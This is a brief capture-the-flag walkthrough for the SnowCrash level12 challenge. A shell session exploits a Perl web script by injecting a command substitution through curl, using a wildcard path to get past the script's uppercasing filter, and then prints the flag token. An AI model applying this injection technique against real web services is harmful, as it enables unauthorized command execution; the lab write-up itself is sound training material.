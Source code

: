 In the home directory you will found a perl script, assuming that this script is runing in the background, we will have an http server with a system call that we can exploit, the only problem is that the parameter given to this system call, is previously modified, making all characters uppercase, and triming all the spaces, so one work around can be this:

``` shell
level12@SnowCrash:~$ echo "getflag > /tmp/flag" > /tmp/GETFLAG;
level12@SnowCrash:~$ chmod +x /tmp/GETFLAG
level12@SnowCrash:~$ curl http://localhost:4646/?x='$(/*/getflag)'&y=''
[1] 2513
level12@SnowCrash:~$ ..
[1]+  Done                    curl http://localhost:4646/?x='$(/*/getflag)'
level12@SnowCrash:~$ cat /tmp/flag
Check flag.Here is your token : g1qKMiRpXf53AWhDaU7FEkczr
level12@SnowCrash:~$ 
```
